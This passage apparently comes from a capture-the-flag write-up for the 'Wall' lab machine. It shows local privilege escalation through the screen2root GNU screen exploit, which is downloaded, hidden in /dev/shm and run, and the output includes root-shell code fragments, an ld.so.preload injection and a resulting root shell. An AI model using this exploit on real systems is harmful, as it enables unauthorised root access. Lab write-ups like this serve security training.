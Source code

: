
I’ll grab the shell script from the [screen2root
repo](https://raw.githubusercontent.com/XiphosResearch/exploits/master/screen2root/screenroot.sh),
and save it in `/dev/shm` as `.a.sh`. Now I run that, and get a shell:

    
    
    www-data@Wall:/dev/shm$ bash .a.sh 
    ~ gnu/screenroot ~
    [+] First, we create our shell and library...
    /tmp/libhax.c: In function 'dropshell':
    /tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
         chmod("/tmp/rootshell", 04755);
         ^~~~~
         chroot
    /tmp/rootshell.c: In function 'main':
    /tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
         setuid(0);
         ^~~~~~
         setbuf
    /tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
         setgid(0);
         ^~~~~~
         setbuf
    /tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
         seteuid(0);
         ^~~~~~~
         setbuf
    /tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
         setegid(0);
         ^~~~~~~
    /tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
         execvp("/bin/sh", NULL, NULL);
         ^~~~~~
    /usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
    collect2: error: ld returned 1 exit status
    [+] Now we create our /etc/ld.so.preload file...
    [+] Triggering...
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /tmp/screens/S-www-data.
    
    # id
    uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
    

I can grab `root.txt` (and `user.txt` if I hadn’t already):
